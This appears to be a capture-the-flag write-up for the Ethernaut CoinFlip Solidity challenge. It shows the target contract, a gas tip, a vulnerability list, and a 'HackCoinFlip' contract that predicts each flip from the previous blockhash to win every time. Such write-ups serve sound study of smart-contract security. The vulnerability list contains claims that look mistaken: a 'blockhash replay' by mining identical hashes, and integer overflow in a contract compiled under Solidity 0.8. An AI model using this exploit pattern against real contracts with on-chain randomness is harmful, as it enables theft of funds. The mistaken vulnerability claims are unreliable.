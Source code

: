 ### TASK
The task is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### Gas Golfering
The FACTOR state variable could be declared as constant to save gas. 

```solidity
uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

### Code Vunerability
The CoinFlip contract is vulnerable to: <br/>

Blockhash Replay Attack: An attacker can replay the same blockhash value by mining two/more blocks with the same blockhash value, which would allow them to always win the coin flip.
<br/>
Integer Overflow/Underflow: The consecutiveWins variable is not protected against integer overflow/underflow, which could result in unexpected behavior.
<br/>
Everything on the blockchain is public and all variables, including state variables, can be read by anyone. So, lastHash and FACTOR should not be considered private.

```solidity
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

There is no real native randomness in the blockchain and all randomness is pseudo-random, generated by the block hashes. So, it's important to use a secure random number generator to avoid predictable outcomes.

#### Hack the contract

```solidity
contract HackCoinFlip{
    CoinFlip immutable coinflipContract;
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor ( CoinFlip _coinflipContract){
        coinflipContract = CoinFlip(_coinflipContract);
    }

    //call this function 10 times
    function guessValue() external {
          uint256 blockValue = uint256(blockhash(block.number - 1));
          uint256 coinFlip = uint256(blockValue / FACTOR);
          bool side = coinFlip == 1 ? true : false;
          
          coinflipContract.flip(side);
    }
}

```

Link to Exploit contract: https://github.com/Sayrarh/Ethernaut-Challenge-with-Foundry/blob/master/test/CoinFlip.t.sol